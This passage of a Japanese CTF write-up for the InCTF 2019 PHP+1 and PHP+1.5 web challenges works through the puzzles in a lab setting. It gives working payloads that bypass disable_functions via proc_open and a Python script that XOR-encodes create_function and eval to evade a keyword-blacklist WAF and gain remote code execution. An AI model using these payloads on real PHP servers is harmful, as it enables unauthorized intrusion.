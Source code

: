 `exec` `system` `shell_exec` など、OS コマンドを実行できる関数が軒並み無効化されています。この制限を回避して OS コマンドを実行できないか [PHP: プログラム実行関数 - Manual](https://www.php.net/manual/ja/ref.exec.php)を眺めていると、[`proc_open`](https://www.php.net/manual/ja/function.proc-open.php) が `disable_functions` から漏れていることがわかりました。これを利用しましょう。

`$proc=proc_open('/bin/ls -la /',[['pipe','r'],['pipe','w'],['pipe','w']],$pipes);var_dump(stream_get_contents($pipes[1]));` で `/readFlag` という実行ファイルの存在が確認できました。`$proc=proc_open('/readFlag',[['pipe','r'],['pipe','w'],['pipe','w']],$pipes);var_dump(stream_get_contents($pipes[1]));` でフラグが得られました。

```
inctf{That-w4s-fun-bypassing-php-waf:SpyD3r}
```

### PHP+1.5 (100)
> Bypass Good WAF and get me shell.
> 
> (URL)

PHP+1 の続きのようです。diff を取ってみましょう。

```diff
>diff -u "..\PHP+1\index.php" index.php
--- "..\\PHP+1\\index.php"      2019-09-22 06:23:22.495435800 +0900
+++ index.php   2019-09-22 06:23:42.992960100 +0900
@@ -12,6 +12,11 @@
       }
   }
   $blacklist = "exit|die|eval|\[|\]|\\\|\*|`|-|\+|~|\{|\}|\"|\'";
+  if(preg_match("/$blacklist/i", $input)){
+    echo "Do you really you need that?" . "<br>";
+    return true;
+  }
+
   unset($blacklist);
   return false;
 }
```

PHP+1 では意味のなかった `$blacklist` が `preg_match` でユーザ入力の確認に使われるようになっていることが確認できました。これでは `eval` が使えず、PHP+1 のコードをそのまま使うことができません。別の方法を探しましょう。

PHP には (PHP 7.2 以降では deprecated になっているものの) [`create_function`](https://www.php.net/manual/ja/function.create-function.php) という、無名関数を作ることができる関数があります。これを使えば、`create_function('','var_dump(1);')();` のようにすることで `eval` 相当のことができるはずです。

PHP では「変数名の後に括弧が付いている場合、その値が何であろうと PHPは、同名の関数を探し実行を試み」る ([PHP: 可変関数 - Manual](https://www.php.net/manual/ja/functions.variable-functions.php)) ことも利用しながら、`create_function('','eval($_GET[0]);')();` 相当のコードを生成する Python スクリプトを書きましょう。

```python
import urllib.parse

def f(s):
  s = bytes(c ^ 0xff for c in s)
  return s + b'^' + b'\xff' * len(s)

code = b'$a=' + f(b'create_function') + b';$b=$a(NULL,' + f(b'eval($_GET[0]);') + b');$b();'
print(urllib.parse.quote(code))
```
